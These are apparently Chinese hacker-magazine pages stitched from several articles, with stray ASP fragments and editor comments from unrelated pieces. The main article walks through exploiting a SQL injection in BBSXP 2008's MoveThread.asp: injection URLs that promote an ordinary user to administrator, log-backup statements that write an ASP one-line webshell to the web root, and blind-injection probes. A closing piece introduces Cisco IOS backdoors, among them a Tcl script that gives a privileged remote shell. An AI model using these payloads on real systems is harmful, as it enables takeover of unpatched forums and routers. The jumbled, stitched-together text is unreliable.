objr("email") = request.Form("email")
objr("cz")=request.Form("fax")
objr("qrfs")=request.Form("queren")
objr("tsyq")=request.Form("beizhu")
```

# 未被引起重视的 BBSXP 2008 注入漏洞

文/西电微院

从本文可以学到：BBSXP 2008 漏洞分析

我觉得在漫长的代码中寻找漏洞是一件很快乐的事情，尤其是在写了几个小时的高数之后，那更是一种享受！不信？那你就去试试吧！

BBSXP 在无数的大牛挖掘之下已经是一个相对安全的论坛了，只要看一两个文件就知道了。在过滤变量时 BBSXP 把它们分成了三类：

- 1. 经函数 requestint 进来的数字型
- 2. 经过函数 HtmlEncode 过滤的字符串
- 3. 不经过函数检查类型，但用 len(str) 检查长度

在这样一个大体的检查过滤思想下，BBSXP 过滤得还是很严的。那么哪些地方可能会出问题呢？我觉得可以分成两类，一类是经过过滤函数 HtmlEncode 过滤的字符型变量在参数于数据库查询或更新操作时没有使用单引号“'”闭合，这在早期的版本可能利用，比如前段时间暴出的 new.asp 的注入；一类则是 request 进来未经过滤函数检查的类型，没用其检查长度，导致可以精心构造语句而做本不可以做到的事情。数了数 BBSXP 的文件，有将近 70 个 asp，多了就难免会有疏漏，为什么？这个问题很严肃，值得思考！有位 BCT 的朋友说，那是因为程序员晚上劳累过度，这个有歧义，具体是不是我就不清楚了^_^

好了，进入正题。BBSXP 2008 <=8.04 moveThread.asp 注入漏洞利用。

## 一、MSSQL 篇

经过 2 月 23 日的一次重大更新，过滤函数威力大增，比如，过滤“_”、“(”、“)” 。大家知道，BBSXP 有个全局的变量 TablePrefix，这是个表名前缀，它的尾部一般就是“_”，不信你去看看数据库，所有的表名都有“_”。仅仅是过滤了这样一个字符就断了我们操作数据库的想法（我比较菜哈！）。这样的一种方法给本人管理网站写防注函数那是一个极好的思路，面对这样的防注函数怎么办？想一想……被这样的防注函数过滤了的变量一定没戏，不管参与查询时是否有被单引号闭合。所以漏洞会出现在哪里呢？聪明的你一定想到了吧？对，就是上文所说的不经过过滤函数检查类型，说不定哪天程序员 GG 真的晚上太过劳累而忘记了检查其长度，那么就有得玩了。把整个源码读完后发现，貌似被遗漏而没有检查长度的地方几乎没有，我下载的官方最新更新版本已经修补了该漏洞。

该漏洞被 Tr4c3 大侠发现，问题出现在 MoveThread.asp 中，代码如下：

```asp
<%
if CookieUserName=empty then error("您还未<a href=""javascript:BBSXP_Modal.Open('Login.asp',380,170);"">登录</a>论坛") '保存cookie登录即可

ThreadID=Request("ThreadID") '没有经函数检查过滤便赋值给 ThreadID

If Not IsNumeric(ThreadID) then '如果 ThreadID 的值不是数字
    ThreadIDArray=split(ThreadID,",") '判断数组，避免 13 行出错
    if IsArray(ThreadIDArray) then
        for i=0 to Ubound(ThreadIDArray)
            if Execute("Select ThreadID from ["&TablePrefix&"Threads] where ThreadID="&ThreadIDArray(i)&"").eof then error"<li>系统不存在该帖子的资料" '注入发生
        next
        ThreadIDSql=int(ThreadIDArray(0))
    else
        error("参数错误。")
    end if
Else
    ThreadIDSql=int(ThreadID)
End If
ForumID=Execute("Select ForumID From ["&TablePrefix&"Threads] where ThreadID="&ThreadIDSql&"")(0)
%>
<!-- #include file="Utility/ForumPermissions.asp" -->
```

先执行了查询判断了权限，导致普通用户即可进行 SQL 注入。构造 URL：`http://www.target.com/movethread.asp?ThreadID=1,1'` 提交，返回出错信息，如下：

Microsoft JET Database Engine 错误 '80040e14'

字符串的语法错误 在查询表达式 'ThreadID=1'' 中。  
/BBSXP_Class.asp，行 5

我测试时提示为：

Microsoft OLE DB Provider for SQL Server '80040e14'  
字符串 '' 之前有未闭合的引号。  
\wwwroot\bbsxp\BBSXP_Class.asp, line 5

暂且认为出现这两种情况就说明漏洞是存在的。

由于该参数可以说是没有经过任何过滤便带入查询，使得漏洞利用极其简单，半分钟就可以把自己提升为管理员，提交：  
**http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 having 1=1**，返回如图 1。



这步的用途是暴出表名前缀，否则可能在下一步出错，可以从 `BBSXP_Threads.ThreadID` 中看出表名前缀为 `BBSXP_`，我在本地测试时没有改动而已，实际测试中根据暴出的表名改动一下下一语句的 `bbsxp_users` 的 `bbsxp_` 部分。

继续提交：  
**http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 update bbsxp_users set UserRoleID=1 where Username='joy'**，返回如图 2：

如果你测试的网站返回如图 2 的话，那么恭喜你，你已经是管理员了！刷新，看下前后对比，如图 3、图 4。



直接点击红框的管理，登录后台，在主机环境变量处得到网站的物理路径，如图 5。



视情况的不同可以分成绝对路径和相对路径两种，相对路径则需要列目录得到绝对路径，得到绝对路径就可以直接备份小马了，依次提交语句：



```text
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 ;alter database bbsxp2008 set RECOVERY FULL
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 ;create table cmd (a image) backup log bbsxp2008 to disk = 'c:\cmd' with init
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 ;insert into cmd (a) values ('<%Execute(request("joy"))%>')
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 ;backup log bbsxp2008 to disk = 'c:\wwwroot\joy.asp'
```

其中“**c:\wwwroot\**”为网站的绝对路径。



懒人可以直接使用 GetWebshell，数据库填写 BBSXP 安装时默认的 bbsxp2008，选数字型，不然会提示有未闭合单引号。一步一步来，第一步时可能会提示未登录，登录即可，如图 6。





耐心点等页面加载完看是否出错，返回如前面图 4 时说明本次提交是成功的。我在本地测试，打开 d:\backup\，如图 7，确实得到了小马。有小马了，接下来的传大马提权之类的大家各自发挥吧！

## 二、ACCESS 篇的疑惑

分别提交：

```text
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 and 1=1
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 and 1=2
```

这里因为只会返回两个页面，如图 8、图 9，分别是查询正确和错误，为了方便我作下标记。



提交：**http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1%20and%200%20<>(select%20count(*)%20from%20bbsxp_users)** 返回如图 8，说明存在 bbsxp_users 这张表；

继续提交：  
`http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1%20and%201=(select%20count(*)%20from%20bbsxp_users%20where%20len(username)=5`  
返回如图 9，则 username 长度为 5；



继续提交：`http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 and 1=(select count(*) from bbsxp_users where username='admin')` 说明有一个用户名为 admin，一般是默认的管理员，或者大家在论坛上直接找到管理员的用户名。

麻烦的就是猜密码，事实上两个返回的页面都是出错的页面，只是错误出现的地方不一样，所以 union select 语句在这里是不用了的。那么 Access 数据库的记录就只能一位一位地猜，但是 `asc(mid(password,1))` 语句中是不可避免地要用到 “,”，而在这里，逗号又是分割数组的标志，这就会导致注入语句在 `asc(mid(password` 处便会截断，造成注入语句不完整而出错。这个问题我想了好些天也一直没有结果，所以，最后我的结论是 Access 版无法利用。汗，大家不会觉得我耍了你们吧？

# 后记

该洞已被 BBSXP “秘密”修补，但没有给出公告或者改版本之类的消息（也有可能是我也没看到吧），首页下载处最新版本仍为 2.23 日 8.04 版，下载的压缩包中 MoveThread.asp 修改时间为 3 月 21 日，如图 10。


官方论坛的置顶帖中仅修正 new.asp 和过滤函数，这就可能导致 3 月 21 日之前在官方或没有更新的源码下载网站下载搭建的 BBSXP 8.04 论坛可以注入。这样做好像不太好吧？当前应该 60% 以上的 BBSXP 2008 8.04 MSSQL 版存在此洞，你想吧，有谁会在官方没有更新时去重新下载自己认为同样的源程序来替换一次自己的网站？如果你会，那确实只能说明你很傻很天真。呵呵，开个玩笑，大家不要玩得太过火了哦。

留下我的 Email：h3389@163.com，有问题或者对 Access 版有可利用的注入语句可以给我发邮件，非常欢迎大家与我交流。最后，感谢非常多的人，还有，我想念的姆花。

```text
objr("fx")=request.Form("housename")
objr("rztime")=request.Form("start_date")
objr("ldtime")=request.Form("end_date")
objr("zzddtime")=request.Form("totime")
objr("zwddtime")=request.Form("endtime")
'response.Write request.form("endtime")
'response.End
objr.update
objr.close
set objr = nothing
```

嘿嘿，什么都没有过滤就放入数据库。但该系统进不了后台，就看不到效果了，但可以看数据库，如图 6。


好了，不再继续分析了，以上的漏洞足以拿到 WEBSHELL 了。过几天就可以买 SPC 了，好高兴啊，又舍不得（我自己的钱）。买了就可以联网了，就有时间交流了，嘿嘿……

> 编辑点评：  
> 就作者写的这几个漏洞来看，可以猜想这个系统的安全性并不咋滴，很多地方都是“来者不拒”地存入数据库，安全隐患很大呀。

> 编辑点评：  
> BBSXP 经历风吹雨打，现在的安全性已经挺不错的了，明显的漏洞基本上都修复了，看各位是否能在作者说的这个基础上再挖掘出新的漏洞来。

# 思科 IOS 的 Tickle 后门技术介绍

图/杨同光

> LCX 首语：  
> 自从搬家后很长时间没有去北京方庄体育场踢球了，上周去了一次，踢了 5 分钟就晕头转向，身体素质差到了极点，长期的熬夜、抽烟，加上生活不规律，造成了体能的迅速下降。前不久，我有一同学的爸爸脑溢血，我打电话给同学，他的心情跌到极低点，好像也悟出了许多人生哲理，不过最重要的一条就是叮嘱我要注意身体。好像学黑客的，搞技术的，有很多宅男，大家还是走出家门，多运动一下吧。

从本文你可以学到：  
思科 IOS 的 Tickle 后门配置的方法

## 一、前言

ISS 的安全研究员迈克尔·林恩（Michael Lynn）在黑客年会上发表了《The Holy Grail: Cisco IOS Shellcode and Exploitation Techniques》和《圣杯：思科 IOS 操作系统 Shell 代码及攻击技术》后，世界上热衷于攻破思科 IOS 操作系统的黑客们兴奋了，溢出攻击成功后，很多黑客开始热衷于如何创建思科 IOS 的后门技术。在 2008 年 2 月的黑客大会上，著名的黑客 FX 又发表了《Developments in Cisco IOS Forensics》文章，把入侵思科 IOS 推向了高潮，本文就是简单地为大家介绍思科路由器 IOS 的一些后门技术，并重点给大家介绍和演示一下思科路由器 IOS 的 Tickle 后门技术方法。

## 二、思科 IOS 后门技术方法简介

思科路由器 IOS 既然存在漏洞，我们就可以通过触发这些漏洞而实现对思科路由器 IOS 的攻击，攻击完成后我们当然也可以通过各种手段和方法留下后门甚至是 RootKit，以方便我们以后能够畅通无阻地访问思科路由器 IOS 设备。现在已经出现了很多种思科路由器 IOS 后门技术和方法，笔者通过研究和分析，粗浅地发现有四种方法较为流行，下面就为大家介绍一下这四种后门技术方法的特点：

- 1. 第一种技术方法就是配置文件修改法。我们在成功获得思科路由器 IOS 的控制权后就可以自由地修改 Startup-Config 配置文件来留下后门。比较常见的修改配置文件留后门的方法就是增加权限为 15 级的用户，还可以启用 HTTP 服务或者启用 SSH 和 VTY 等虚拟终端服务等，这种后门技术是最简单的一种方法，我们可以采用较为隐蔽的方法，就是激活 Cisco 这一默认用户和启用 HTTP 服务。这种方法是实现比较简单，但是缺点也很明显，细心一点的网络管理员一眼就会发现我们留的这些后门。
- 2. 第二种技术方法就是溢出后门法。这种方法有两种实现的技术方法，第一种实现方式就是德国 Phenoelit 黑客组织成员 FX 的思科 IOS 补丁法后门技术。这种方法的前提是思科路由器的 IOS 存在漏洞，并且我们能够成功地触发这些漏洞。FX 起初认为针对思科 IOS 的代码注入很难，所以他就巧妙地在成功触发思科 IOS 漏洞后，通过像为 IOS 镜像文件升级补丁一样为思科路由器正在运行的 IOS 镜像文件后补入一段程序代码，这段程序代码能够自动修改思科 IOS 的配置文件，留下后门。通过这样一种方法来为配置文件增加一些特需配置，从而实现可以通过 Telnet 远程访问思科路由器 IOS。这种方法实现起来难度较大而且程序代码运行不稳定，并且针对不同的思科 IOS 版本需要触发漏洞的程序代码也不尽相同，这就更加增加了溢出成功的难度。连 FX 本人也认为实现难度很大，需要精心计算和编写代码。

第二种实现的方式就是林恩的溢出注入后门法。这种方法与前面 FX 的方法共同点就是都需要思科 IOS 存在漏洞，并且能够成功触发这些漏洞。但是它们也有本质的区别，就是林恩不仅通过注入的程序代码实现了 Socket 的绑定，而且还成功地获取虚拟终端（VTY）服务的 Shell，而 FX 最初仅仅是修改了配置文件来实现的。这种方法的优点是溢出成功后运行稳定，缺点是实现难度较大。但是这种方法一旦实现，将很难被管理员发现、预防和清除，其隐蔽性很高。我们相信随着更多的黑客关注思科的 IOS 安全，越来越多的思科 IOS 漏洞会被发现和公布，同样越来越多的 ShellCode 也会被发现和利用。

- 3. 第三种技术方法就是 Gdb 后门法。Gdb 是 GNU 开源组织发布的一个强大的程序调试工具。思科 IOS 设备一直对 Gdb 有很好的支持，具体的 Gdb 命令我们可以通过查阅 Cisco 网站获得。在实际中我们是通过串行线与思科 IOS 设备相连，通过 Gdb 程序进行调试思科 IOS 的。Gdb 后门技术法不像前面描述的后门技术方法那样需要通过成功触发漏洞来实现 ShellCode 的注入，而是直接把 PowerPC 汇编语言写好的 ShellCode 通过在 Gdb 的调试时直接注入到思科 IOS 内核中，通过 IOS 内核调用这个 ShellCode 来实现一个独立的 Socket 绑定。这个 ShellCode 运行大概需要 60 秒的时间，运行成功后我们就可以通过 Telnet 到路由器上从而获得一个 15 级权限的思科 IOS 的 Shell。这时我们可以通过 TCP 远程通信进入到思科 IOS 的 CLI 中。这种后门技术的优点是我们不需要通过思科 IOS 设备的漏洞来触发，也就是任何一个思科 IOS 设备都可以获得 Shell，这种 ShellCode 的稳定性好，而且它就像 Rootkit 一样极难被网络管理员发现。但是由于 “Gdb kernel” 这个命令只能在控制台 CON 上运行，所以实际实现起来是很困难的。这种方法一般是供实验测试 ShellCode 使用，网上现在已经发布了实现这个后门技术的视频，当然并没有公布 PowerPC 汇编的代码。其中的一个视频我已经在我的博客上放送给大家了！
- 4. 第四种技术方法就是我们要重点给大家介绍的思科路由器 IOS 的 Tickle 后门技术法。这种方法是通过思科 IOS 自身支持的脚本语言 Tickle 来实现的后门技术。这种方法优点是较为稳定，成功率高，且不易被发现，更重要的是操作简单，非常适合菜鸟操作使用。因为它也是通过建立独立的 Socket 通信来获得思科 IOS 的 Shell 以实现对思科 IOS 设备的控制。

## 三、思科 IOS 的 Tickle 后门技术方法

1：我们首先了解一下什么是“Tickle”？

Tickle（踢叩）也就是我们说的 TCL（Tool Command Language），即工具命令语言。它是由 John Ousterhout 创造的。Tickle 是一种很通用的脚本语言，它几乎在所有的平台上都可以解释运行，尤其是在嵌入式系统中应用非常广泛，其强大的功能和简单精妙的语法常常使我们感到惊喜。Tickle 语言实际上包含了两个部分：一个语言和一个库。首先，Tickle 是一种简单的脚本语言，主要用于发布命令给一些交互程序，如文本编辑器、调试器和 Shell。其次，Tickle 是一个库包，可以被嵌入应用程序，Tickle 的库包含了一个分析器、用于执行内建命令的例程和可以使你自定义扩充的库函数。应用程序使用 Tickle 作为它的命令语言有三个好处：

- (1) Tickle 提供了标准语法，一旦用户掌握了 Tickle 就可以很容易地发布命令给基于 Tickle 的程序。
- (2) Tickle 实现了很多的功能，使你的工作变得很方便。
- (3) Tickle 可作为程序间通信的接口。

就是这些特点使我们可以利用 Tickle 编写代码以实现我们和思科 IOS 建立独立的 Socket 通信并获得思科 IOS 的 Shell，从而实现我们留有隐蔽后门的目的。在网上有好多关于 Tickle 语言的免费文章和资料，感兴趣你可以去搜索学习。

2：Tickle 脚本语言在思科 IOS 中的命令

A. 在全局模式下的常用命令：

- 1．Router# TclSh  
  #进入 TclSh 命令模式
- 2．Router(Tcl)# source files  
  #执行 Tcl 脚本文件
- 3．Router(Tcl)# IOS_config "cmd" "cmd-option"  
  #执行思科 IOS 的配置命令
- 4．Router(Tcl)# exec "exec-cmd"  
  #执行思科 IOS 的运行命令
- 5．Router(Tcl)# exit  
  #退出 TclSh 命令模式

B. 在全局配置模式下的命令：

- 1．Router(config)# scripting tcl encdir directory  
  #指定默认的 Tcl 脚本文件的执行目录
- 2．Router(config)# scripting tcl init file  
  #指定在运行 TclSh 时的初始运行的 Tcl 脚本

3：思科 IOS 的 Tickle 后门程序 TclShell.tcl v1.0

TclShell v1.0 是由 Andy Davis 编写的，他采用建立一个永久的 Socket 连接来通过 TCP 协议实现和思科 IOS 设备远程通信，而且他已在这个 Socket 上绑定了一个思科 IOS 的 Exec 的 Shell。这个脚本程序一旦执行，它就会在 TCP 的端口 5011（可以任意修改为除 23 以外的端口）上侦听 Telnet 服务，攻击者可以 Telnet 到这个端口获取一个思科 IOS 的 Exec 的 Shell。在成功获得这个 Shell 后我们就可以直接执行思科 IOS 的命令了，而且攻击者获取的用户权限也是 15 级的。也就是说攻击者可以通过 TclShell v1.0 完全控制思科 IOS 设备。

4：思科 IOS 的 Tickle 后门的实现步骤

- (1) 首先我们进入到被攻击的思科 IOS 设备上，测试网络通信情况，然后开启我们本地的 TFTP 服务器。
- (2) 然后我们就可以通过 TFTP 服务器上传 Tickle 后门程序代码到被攻击路由器上。我们一般有四个位置实现 TclShell.tcl 程序的存放。第一个是路由器的 Flash 卡中；第二个是 NVRAM 中；第三个是放在路由器能够随时访问到的 FTP 服务器上；最后一个是放在我们的 TFTP 服务器上。我建议大家放在路由器的本地 Flash 或 NVRAM 中。
